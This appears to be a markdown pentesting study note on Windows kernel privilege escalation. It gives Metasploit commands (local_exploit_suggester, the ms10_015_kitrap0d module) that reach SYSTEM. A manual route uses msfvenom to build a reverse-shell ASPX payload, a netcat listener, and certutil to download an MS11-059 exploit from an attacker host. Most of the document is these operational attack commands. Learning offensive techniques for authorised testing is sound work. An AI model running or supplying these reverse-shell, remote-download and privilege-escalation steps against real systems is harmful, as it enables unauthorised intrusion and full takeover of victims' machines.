

# Kernel Exploits

The Kernel is a computer program that controls everything in the system. Facilitates interactions between hardware and software components (a translator)

```
                     [Application]
                           |
                           V 
                        [Kernel]
                           |
            -------------------------------
            |              |              |
            V              V              V 
          [CPU]        [Memory]      [Devices]
```



There could be outdated software and these outdated software contains vulnerability so we want to check the kernel version in the target machines and make use of it to the exploitations

## Kernel Exploits using Metasploit

```
// start the metasploit 
msfconsole 

// after the initial low privilege access get the shell and run the windows-exploit-suggester in the metasploit 
run post/multi/recon/local_exploit_suggester 

// after getting few kernel exploit (example kitrap0d)
background
use exploit/windows/local/ms10_015_kitrap0d

// set the options like set the session to before session , set lhost to 5555 and lport to other port, not the port used before in initial access 
run 

// now we have high privilege
getuid
output - Server username: NT AUTHORITY\SYSTEM 
```

## Kernel Exploits by Manually

We are now going to manually exploit this using netcat 

```
// creating payload for reverse shell 
msfvenom -p windows/shell_reverse_tcp LHOST=attacker_ip LPORT=4444 -f aspx > manual.aspx 

// Using the anonymous login in ftp in the first stage gain the reverse shell using netcat 
nc -nvlp 4444 

// using windows-exploit-suggester.py find a valid kernel expoit (example here MS11-059)
found a kernel exploit MS11-059 and searching in google to find a manual code to exploit this vulnerability

// host a python webserver to send the payload to the target machines and download using 
certutil -urlcache -f https://attacker_ip/MS11-059.exe ms.exe 

// we found code in github or other websites to exploit it and we gain high privilege
getuid 
output - NT AUTHORITY\SYSTEM
```

## Resource 

- [windows-kernel-exploits](https://github.com/SecWiki/windows-kernel-exploits)

> [!NOTE]
> Here there could be outdated resources so make the resources according to the new vulnerability and target machines versions 
